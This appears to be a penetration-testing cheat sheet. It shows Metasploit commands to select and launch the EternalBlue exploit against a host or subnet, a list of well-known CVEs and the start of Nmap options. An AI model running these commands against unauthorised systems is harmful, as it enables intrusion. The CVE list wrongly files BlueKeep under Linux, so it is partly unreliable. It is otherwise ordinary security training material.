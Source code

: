 
## Tools and Techniques

### Metasploit

- **Description:** A penetration testing framework for developing, testing, and executing exploits.
- **Commands:**
    - **info:** Displays information about a module.
        
        ```bash
        info exploit/windows/smb/ms17_010_eternalblue
        ```
        
    - **search:** Searches for modules or exploits.
        
        ```bash
        search eternalblue
        ```
        
    - **use:** Selects a module to use.
        
        ```bash
        use exploit/windows/smb/ms17_010_eternalblue
        ```
        
    - **set:** Sets options for the module.
        
        ```bash
        set RHOSTS 192.168.1.100
        set LHOST 192.168.1.10
        ```
        
    - **setg:** Sets global options.
        
        ```bash
        setg RHOSTS 192.168.1.0/24
        ```
        
    - **run/exploit:** Executes the exploit.
        
        ```bash
        exploit
        ```
        
- **Famous Exploits and CVEs:**
    - **Windows:**
        - **MS17-010 (EternalBlue):** Exploits SMBv1 to gain remote code execution (CVE-2017-0144).
        - **MS08-067:** Exploits a flaw in the NetAPI to execute arbitrary code (CVE-2008-4250).
    - **Linux:**
        - **CVE-2016-5195 (Dirty COW):** Privilege escalation vulnerability in the Linux kernel.
        - **CVE-2019-0708 (BlueKeep):** Remote code execution in RDP services.

### Nmap

- **Description:** A network scanning tool for host discovery, port scanning, and service enumeration.
- **Famous Options:**
    - **-sS:** SYN scan (stealth scan).
        